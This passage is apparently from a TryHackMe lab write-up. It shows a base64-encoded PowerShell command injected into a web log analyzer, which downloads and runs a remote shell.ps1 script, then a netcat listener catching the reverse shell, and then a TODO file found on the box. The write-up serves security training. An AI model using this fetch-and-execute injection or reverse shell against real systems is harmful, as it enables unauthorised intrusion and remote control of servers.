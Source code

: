 It gave us a long base64 string. To execute it we need to prepend it with `powershell -enc`.

```powershell
powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMAAuADEANAAuADkAMQAuADIAMAA3AC8AcwBoAGUAbABsAC4AcABzADEAIgApAAoA
```

Now we setup a http sever for the `shell.ps1`.

```bash
sudo python3 -m http.server 80
```

And we replace whoami on the web log analyzer with the command above and send it.

We setup out listener now and wait

I'll be using `PowerShell #3 (Base64)` from <https://www.revshells.com>.

![shell](6.png)

```terminal
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.14.91.207] from (UNKNOWN) [10.10.88.238] 6806

PS C:\windows\system32\inetsrv> whoami
thm\admin
PS C:\windows\system32\inetsrv>
```

And great! we got a shell.

## **Privilege Escalation**

Looking through the system files we find user `dev` and the following file on their desktop.

```terminal
PS C:\users\dev\desktop> cat TODO.txt
Hey dev team,

This is the tasks list for the deadline:

Promote Server to Domain Controller [DONE]
Setup Microsoft Exchange [DONE]
Setup IIS [DONE]
Remove the log analyzer[TO BE DONE]
Add all the users from the infra department [TO BE DONE]
Install the Security Update for MS Exchange [TO BE DONE]
Setup LAPS [TO BE DONE]


When you are done with the tasks please send an email to:

joe@thm.local
carol@thm.local
and do not forget to put in CC the infra team!
dev-infrastracture-team@thm.local
```
